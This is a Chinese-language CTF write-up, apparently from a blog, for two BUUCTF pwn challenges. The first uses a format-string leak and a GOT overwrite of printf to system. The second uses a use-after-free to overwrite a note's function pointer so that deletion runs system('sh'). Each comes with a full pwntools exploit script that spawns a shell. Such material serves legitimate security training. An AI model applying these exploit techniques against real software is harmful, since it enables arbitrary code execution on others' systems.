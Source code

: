 ![](https://img-blog.csdnimg.cn/47a6b3421a8c444dbc6728cc82ca0b28.png)
使用格式化字符串泄露got表地址，然后使用fmtstr_payload函数构造payload，将printf函数的got表地址改成system。（下面的代码有一定概率通不过，不知道是什么原因）
```python
from pwn import *
from LibcSearcher import *
context.log_level='debug'
# io = process('./pwn')
io = remote('node4.buuoj.cn', 29861)
elf = ELF('./pwn')
io.sendlineafter(b'Please tell me:', b'a%9$s' + p32(elf.got['alarm']))
io.recvuntil(b'Repeater:a')
alarm = u32(io.recv(4))
print(hex(alarm))
libc = LibcSearcher('alarm', alarm)
base = alarm - libc.dump('alarm')
print(hex(base))
sys = base + libc.dump('system')
print(hex(sys))
payload = b'|| deadbeef||'
payload += fmtstr_payload(11, {elf.got['printf']: sys}, numbwritten=22)
print(payload)
io.sendlineafter(b'Please tell me:', payload)
io.sendline(b'|| /bin/sh')
io.interactive()
```

# buu059-ciscn_2019_n_3
经过对源程序的分析，可以得到本题中使用的数据结构如下：
![](https://img-blog.csdnimg.cn/cf4990b277154a348f0414e5230cd8a3.png)
records全局变量是chunk_info*的数组。其中可以存放整型或字符串。
在两个释放内存的函数中都没有将全局变量中的对应指针删除，可能会导致UAF。
由于打印内容使用的是chunk_info中的函数指针，因此修改这个函数指针可以有任意代码执行。
此处利用UAF修改函数指针，修改free函数指针到system，修改print函数指针为字符串'sh\x00\x00'，这样在删除的时候就可以执行"system('sh')"。
```python
from pwn import *
context.log_level='debug'
io = process('./pwn')
elf = ELF("./pwn")
def add(index, type, content, length=0):
    io.sendlineafter(b'CNote > ', b'1')
    io.sendlineafter(b'Index > ', str(index).encode())
    io.sendlineafter(b'Type > ', str(type).encode())
    if type == 2:
        io.sendlineafter(b'Length > ', str(length).encode())
    io.sendlineafter(b'Value > ', content)

def delete(index):
    io.sendlineafter(b'CNote > ', b'2')
    io.sendlineafter(b'Index > ', str(index).encode())

def dump(index):
    io.sendlineafter(b'CNote > ', b'3')
    io.sendlineafter(b'Index > ', str(index).encode())

add(0, 2, b'/bin/sh', 0x10)
add(1, 1, b'123456')
delete(0)
delete(1)
add(2, 2, b'sh\x00\x00' + p32(elf.plt['system']), 0xc)
delete(0)
io.interactive()
```